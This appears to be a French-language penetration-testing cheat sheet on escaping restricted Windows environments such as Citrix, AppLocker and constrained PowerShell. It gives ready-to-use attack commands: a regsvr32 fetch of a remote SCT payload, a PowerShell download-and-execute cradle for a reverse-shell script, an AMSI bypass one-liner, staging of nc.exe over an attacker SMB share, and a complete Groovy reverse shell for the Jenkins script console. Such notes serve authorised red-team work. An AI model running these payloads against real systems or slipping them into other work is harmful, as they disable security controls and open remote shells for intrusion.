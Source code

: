# 07-Évasion des Environnements Restreints

Cette section aborde les techniques pour s'échapper ou exécuter du code dans des environnements Windows restreints tels que Citrix, les sessions RDP limitées, ou lorsque AppLocker est en place.

## Évasion de Citrix et Environnements Similaires (Dialog Box Abuse)

La méthodologie de base pour s'échapper d'un environnement de type application publiée (Citrix, etc.) est :
1.  Obtenir l'accès à une `Boîte de Dialogue` système (Ouvrir, Enregistrer sous, Imprimer, etc.).
2.  Exploiter la boîte de dialogue pour obtenir une `exécution de commandes` ou un accès au système de fichiers.
3.  `Élever les privilèges` si nécessaire.

**Exemple avec MS Paint (ou Notepad, Wordpad, etc.) :**
1.  Si une application comme `Paint` est disponible, lancez-la.
2.  Allez dans `Fichier > Ouvrir` (ou `Ctrl+O`).
3.  Dans la boîte de dialogue "Ouvrir" :
    *   Dans le champ "Nom de fichier", vous pouvez souvent taper des chemins locaux ou UNC.
    *   Pour accéder au système de fichiers local : `C:\Windows\System32\` puis Entrée. Vous pouvez alors naviguer.
    *   Pour exécuter une commande (si possible) : tapez `cmd.exe` ou `powershell.exe` et Entrée.
    *   Pour accéder à un partage UNC : `\\127.0.0.1\c$\Utilisateurs\VotreUtilisateur` (pour accéder à votre profil local) ou `\\<IP_SERVEUR_SMB>\partage`.
    *   Changez "Type de fichiers" en "Tous les fichiers (\*.\*)" pour voir tous les fichiers.

**Accéder à un Partage SMB depuis un Environnement Restreint :**
1.  Démarrez un serveur SMB sur votre machine attaquante (ex: avec Impacket `smbserver.py`) :
    ```shell-session
    # Sur la machine attaquante (Kali)
    sudo python3 /usr/share/impacket/examples/smbserver.py -smb2support MonPartage /chemin/vers/vos/outils
    # Ou smbserver.py MonPartage . (pour partager le répertoire courant)
    ```
2.  Dans l'environnement restreint (ex: Citrix via Paint) :
    *   Ouvrez la boîte de dialogue `Fichier > Ouvrir`.
    *   Dans "Nom de fichier", tapez : `\\<IP_ATTAQUANT>\MonPartage`
    *   Appuyez sur Entrée. Vous devriez pouvoir voir et copier des fichiers depuis/vers le partage.
    *   Copiez vos outils (nc.exe, winPEAS, etc.) vers un emplacement accessible dans l'environnement restreint (ex: `C:\Users\Public\Downloads` ou un répertoire temporaire).

## Contournement d'AppLocker
AppLocker restreint les applications, scripts et installeurs que les utilisateurs peuvent exécuter.

**1. Énumération de la Politique AppLocker**
```powershell
# Obtenir la politique effective (appliquée)
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Get-AppLockerPolicy -Effective | Format-List *

# Tester si un exécutable spécifique est bloqué pour l'utilisateur "Everyone"
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -Path C:\Windows\System32\cmd.exe -User Everyone
# Test-AppLockerPolicy -Path C:\chemin\vers\votre\payload.exe -User (whoami)
```
Analysez les règles pour identifier les chemins autorisés (writeable et executable), les types de fichiers autorisés, et les éditeurs de confiance.

**2. Techniques de Contournement Courantes**
*   **Utilisation de binaires Windows signés et autorisés (Living Off The Land Binaries - LOLBAS) :**
    De nombreux exécutables Windows peuvent être utilisés pour exécuter du code, télécharger des fichiers, etc. Voir https://lolbas-project.github.io/
    *   **Regsvr32 :** Peut exécuter des scripts SCT distants.
        ```powershell
        # payload.sct hébergé sur http://<IP_ATTAQUANT>/payload.sct
        regsvr32.exe /s /u /i:http://<IP_ATTAQUANT>/payload.sct scrobj.dll
        ```
    *   **MSBuild :** Peut compiler et exécuter du code C# à partir d'un fichier projet XML.
        ```powershell
        # C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe C:\chemin\vers\payload.csproj
        ```
    *   **InstallUtil :** Peut exécuter du code dans des assemblys .NET (méthode Uninstall).
        ```powershell
        # C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\chemin\vers\payload.exe
        ```
    *   **CMSTP :** Peut exécuter des scripts SCT à partir de fichiers INF.
    *   **PowerShell Constrained Language Mode Bypass :** Si PowerShell est restreint, des techniques existent pour le contourner.

*   **Chemins Inscriptibles et Exécutables :** Si vous trouvez un répertoire où vous pouvez écrire des fichiers ET depuis lequel l'exécution est autorisée par AppLocker, placez-y votre payload.

*   **DLL Hijacking sur des Applications Autorisées :** Si une application autorisée charge une DLL depuis un emplacement contrôlable.

## Contournement des Restrictions PowerShell
Si PowerShell est en mode `Constrained Language Mode` ou si l'exécution de scripts est bloquée.

**1. Vérifier le Mode de Langage PowerShell**
```powershell
$ExecutionContext.SessionState.LanguageMode
# FullLanguage : Pas de restrictions
# ConstrainedLanguage : Fortement limité
# RestrictedLanguage : Très limité
```

**2. Techniques de Contournement**
*   **Exécution de code PowerShell à distance (si IEX et IWR sont autorisés) :**
    ```powershell
    # IEX (Invoke-Expression) avec IWR (Invoke-WebRequest)
    IEX(New-Object Net.WebClient).DownloadString('http://<IP_ATTAQUANT>/rev.ps1')
    # Ou
    # IEX(IWR http://<IP_ATTAQUANT>/rev.ps1 -UseBasicParsing)
    ```

*   **Contournement d'AMSI (Antimalware Scan Interface) :**
    AMSI peut bloquer les scripts PowerShell malveillants. Des techniques de bypass existent.
    ```powershell
    # Un exemple de bypass AMSI (peut être obsolète, de nombreuses variantes existent)
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
    # Ou utiliser des outils/scripts dédiés comme Amsi-Bypass de RastaMouse
    ```

*   **Utiliser des runspaces PowerShell depuis C# :**
    Si vous pouvez exécuter du code .NET (par exemple via MSBuild, InstallUtil), vous pouvez créer un runspace PowerShell qui n'est pas soumis aux mêmes restrictions.

*   **PowerShell sans powershell.exe :**
    Utiliser des outils comme `PowerLessShell` ou `NoPowerShell` qui exécutent du code PowerShell via le framework .NET sans lancer `powershell.exe`.

## Exploitation des Interfaces Restreintes (Exemple : Console de Script Jenkins)
Certaines applications web ou outils d'administration (comme Jenkins) peuvent fournir des consoles de script (Groovy, Python, etc.) qui s'exécutent sur le serveur avec les privilèges du service de l'application.

**Exemple (Console de script Jenkins - Groovy) pour un reverse shell :**
(Code tiré de `03-other-stuff-not-finished.md`)
```groovy
// Payload pour un reverse shell via la console de script Jenkins
String host="<IP_ATTAQUANT>";
int port=<PORT_ATTAQUANT>;
String cmd="cmd.exe"; // ou powershell.exe
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try {
    p.exitValue();
    break;
  }catch (Exception e){
    // Processus toujours en cours
  }
};
p.destroy();
s.close();
```
Collez ce code dans la console de script Jenkins (Manage Jenkins > Script Console) après avoir remplacé `<IP_ATTAQUANT>` et `<PORT_ATTAQUANT>`.
Si Jenkins s'exécute en tant que SYSTEM ou un utilisateur privilégié, le shell sera privilégié. 